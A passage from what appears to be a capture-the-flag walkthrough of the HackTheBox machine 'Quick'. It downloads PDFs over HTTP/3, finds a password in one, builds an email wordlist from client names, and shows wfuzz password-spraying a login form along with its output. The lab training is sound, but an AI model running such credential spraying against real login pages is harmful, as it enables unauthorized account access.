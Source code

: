 ~~~
  <li><a href="docs/Connectivity.pdf">Connectivity Guide</a></li>                                                    
</ul>                                                     
</head>                                                   
</html>   
~~~
{: .language-bash}

I download both PDF's by just appending the output to a pdf-file.

~~~
┌──(kali㉿kali)-[~/boxes/quick/quiche]
└─$ cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/docs/Connectivity.pdf >> connectivity.pdf

┌──(kali㉿kali)-[~/boxes/quick/quiche]
└─$ cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify https://portal.quick.htb/docs/QuickStart.pdf >> quickstart.pdf
~~~
{: .language-bash}


The Connectivity PDF contains a password and some instructions to reach the ticketing-system for customers.

![PDF](https://jackhack.se/assets/images/quick/Connectivity_pdf.png)
{: .full}
This part took me like litteraly a whole day to figure out, since there was a few clients listed on the homepage i used these to build a wordlist to use together with the recently found password for accessing the ticket-system. 

I had no luck with that, since the login-page mentions "email" instead of "username" i suspected that i needed a full username like *user@company.tld*, i grabbed all usernames and the corresponding company name together with the [country-top level domains](https://en.wikipedia.org/wiki/List_of_Internet_top-level_domains) that was specified on the *clients.php* page and made a wordlist from these.
(Probably this part should be scripted :))

![User List](https://jackhack.se/assets/images/quick/userslist.png)
{: .full}
Running wfuzz to quickly test all users i found one that got a 302 Redirect when logging in. 

~~~
┌──(kali@kali)-[~/boxes/quick]
└─$ wfuzz -X POST -u http://portal.quick.htb:9001/login.php -d  'email=FUZZ&password=Quick4cc3$$' -w users.txt -c


********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://portal.quick.htb:9001/login.php
Total requests: 8

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000005:   200        0 L      2 W      80 Ch       "Tim@qconsulting.co.uk"
000000006:   200        0 L      2 W      80 Ch       "Roy@darkwing.com"                                                  
000000003:   200        0 L      2 W      80 Ch       "Elisa"       
000000008:   200        0 L      2 W      80 Ch       "James@lazycoop.cn"
000000002:   200        0 L      2 W      80 Ch       "Roy"         
000000007:   302        0 L      0 W      0 Ch        "Elisa@wink.co.uk"                                                  
~~~
